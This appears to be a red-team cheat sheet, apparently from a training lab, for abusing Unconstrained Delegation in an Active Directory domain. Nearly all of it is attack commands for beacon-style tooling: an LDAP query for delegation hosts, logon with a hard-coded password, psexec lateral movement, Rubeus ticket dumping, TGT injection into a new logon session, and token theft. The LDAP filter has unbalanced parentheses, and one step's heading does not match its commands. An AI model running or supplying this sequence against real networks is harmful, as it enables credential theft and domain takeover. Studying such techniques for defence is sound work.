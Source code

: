 
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb
```

Few options here: 

1.  Dump tickets from memory (hopefully a DA is here)

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /nowrap
```


Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

